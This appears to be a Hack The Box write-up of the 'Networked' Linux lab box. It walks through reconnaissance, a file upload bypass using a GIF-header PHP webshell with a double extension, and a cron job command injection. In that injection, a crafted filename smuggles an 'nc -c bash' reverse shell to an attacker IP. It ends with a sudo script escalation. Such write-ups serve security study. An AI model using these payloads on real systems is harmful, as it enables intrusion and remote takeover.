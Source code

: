 ```yaml
---
layout: single
title: Networked - Hack The Box
excerpt: "Networked is an Easy difficulty Linux box vulnerable to file upload bypass, leading to code execution. Due to improper sanitization, a crontab running as the user can be exploited to achieve command execution. The user has privileges to execute a network configuration script, which can be leveraged to execute commands as root."
date: 2025-05-30
classes: wide
header:
  teaser: /img2/networked.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Information Leakage
  - PHP Source Code Analysis
  - Abusing File Upload (AddHandler Exploitation) [RCE]
  - Abusing Cron Job [Command Injection] (User Pivoting)
  - Abusing Sudoers Privilege (Custom Script Exploitation) [Privilege Escalation]
---
```



## Reconnaissance

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.10.146
```

![](/img2/Pasted%20image%2020250530093957.png)

- Whatweb

```bash
whatweb http://10.10.10.146/
```

![](/img2/Pasted%20image%2020250530094128.png)

- Gobuster

```bash
gobuster dir -u http://10.10.10.146/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

![](/img2/Pasted%20image%2020250530104755.png)

- Download backup.tar

![](/img2/Pasted%20image%2020250530104908.png)

```bash
7z x backup.tar
```

- Check php files

![](/img2/Pasted%20image%2020250530105307.png)

![](/img2/Pasted%20image%2020250530105348.png)

![](/img2/Pasted%20image%2020250531134313.png)

> To bypass this restriction, the last extension need to be ".jpg, .png, .gif, .jpeg" so we can upload doble extension like "test.php.png".  

![](/img2/Pasted%20image%2020250530110305.png)

>We need to upload image file to bypass MIME library. To upload "real" image we need to have image Content-Type and first bytes

```bash
echo '<?php system("whoami")?>' > cmd.php
```

```bash
xxd cmd.php
```

![](/img2/Pasted%20image%2020250530110744.png)

```bash
file cmd.php
```

![](/img2/Pasted%20image%2020250530110919.png)

> To detect file type the MIME library check first bytes, so we need to change it

```bash
echo 'GIF8;\n<?php system("whoami")?>' > cmd.php
```

```bash
xxd cmd.php
```

![](/img2/Pasted%20image%2020250530111042.png)

```bash
file cmd.php
```

![](/img2/Pasted%20image%2020250530111146.png)

> Now, MIME will detect file as GIF

## Exploitation

- Abusing File Upload (Doble extension)

![](/img2/Pasted%20image%2020250530111317.png)

![](/img2/Pasted%20image%2020250530111344.png)

> Usually, apache shouldn´t execute php code in doble extension files, but in this case we can run php code. 

- Send revese shell

![](/img2/Pasted%20image%2020250530111623.png)

```bash
nc -nlvp 9000
```

## Post-exploitation

- Abusing cron job

```bash
cat /home/guly/crontab.guly
```

![](/img2/Pasted%20image%2020250530132027.png)

- Check check_attack.php 

```php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```

> This script detects new files in /var/www/html/uploads/ and run rm -f FILE, so we can change the name of script to send a reverse shell.

- Pivoting

```bash
touch 'test.txt;nc -c bash 10.10.16.7 9002'
```

```bash
nc -nvlp 9002
```

- Check sudoers

```bash
sudo -l
```

![](/img2/Pasted%20image%2020250531140948.png)

```
sudo /usr/local/sbin/changename.sh
```

![](/img2/Pasted%20image%2020250531141424.png)


![](/img2/Pasted%20image%2020250530131751.png)